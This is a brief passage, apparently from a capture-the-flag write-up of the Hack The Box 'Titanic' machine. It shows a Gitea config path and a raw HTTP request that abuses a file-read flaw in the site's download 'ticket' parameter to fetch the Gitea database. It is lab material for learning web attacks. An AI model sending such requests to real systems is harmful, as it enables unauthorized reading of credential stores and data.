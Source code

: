 ![](images/2025-02-15_20-42_80_lfi_appini.png)

```c
<--- CUT FOR BREVITY --->
PATH = /data/gitea/gitea.db
<--- CUT FOR BREVITY --->
```

```c
GET /download?ticket=/home/developer/gitea/data/gitea/gitea.db HTTP/1.1
Host: titanic.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titanic.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```
